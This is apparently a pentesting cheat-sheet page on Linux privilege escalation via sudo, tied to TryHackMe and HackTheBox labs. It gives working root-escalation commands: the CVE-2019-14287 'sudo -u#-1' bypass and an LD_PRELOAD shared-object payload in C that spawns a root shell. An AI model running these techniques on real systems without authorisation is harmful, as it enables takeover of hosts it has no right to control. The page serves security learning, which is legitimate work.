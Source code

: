 # sudo

[Go back](../index.md#linux-privilege-escalation-)

An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) (1.9k ⭐).

<hr class="sep-both">

## Administrative privileges

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![picklerick](../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
![nibbles](../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../_badges/htb-p/getsimplecms.svg)

<div class="row row-cols-md-2"><div>

If you have [administrative privileges](/operating-systems/linux/knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ldpreload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```
</div><div>

The second section is about your [sudoers](/operating-systems/linux/architecture/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div></div>

<hr class="sep-both">

## sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

<div class="row row-cols-md-2"><div>

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>
</div></div>


<hr class="sep-both">

## LD_PRELOAD

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)

<div class="row row-cols-md-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l`, then it means that the user can run some code before executing a command as administrator.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```bash!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>
